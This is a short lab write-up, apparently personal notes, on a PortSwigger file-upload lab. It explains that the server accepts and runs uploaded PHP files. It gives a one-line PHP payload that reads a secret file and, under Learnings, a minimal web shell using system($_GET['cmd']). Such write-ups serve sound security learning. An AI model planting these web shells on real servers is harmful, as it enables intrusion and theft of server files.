

# Remote code execution via web shell upload
**Category:** Web Exploitation — file upload vulnerability
**Difficulty:** Apprentice
**Progress:** Solved

---

## Description

**Lab URL:** `https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload`


---

## Reconnaissance

- What does the application do? 
    - The website is a blog with account functionality. Users can leave comments on blogs and use pictures as an avatar
- Where is user input accepted? (forms, URL parameters, headers, cookies)
    - When commenting or logging in, pictures can be uploaded as an avatar


---

## Analysis


#### Vulnerability

File upload filter not checking file extensions but executing them. An attacker can upload any file including scripts that create shells or worse.

---

## Solution 

### Step 1 - Recon / Looking at responses

First lets upload an image to test the functionality that apparently is vulnerable. It works although the upload looks sketchy:


Uploading an empty shell.php works so the filter does not even check for file extensions it seems.

---
### Step 2 - Enumeration / Exploitation

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

should get the correct file and the response indeed has the secret, which solves the lab.

---
## Real World Impact

Webserver executes any uploaded code -> Remote Code execution. An attacker abusing this could read all the files on the server including passwd. 


---
## Learnings

- for an upload to be vulnerable the check needs to be faulty but the upload also needs to be executed or otherwise processed
- `<?php echo file_get_contents('/path'); ?>` is the minimum to read a file, `system($_GET['cmd'])` for a minimal RCE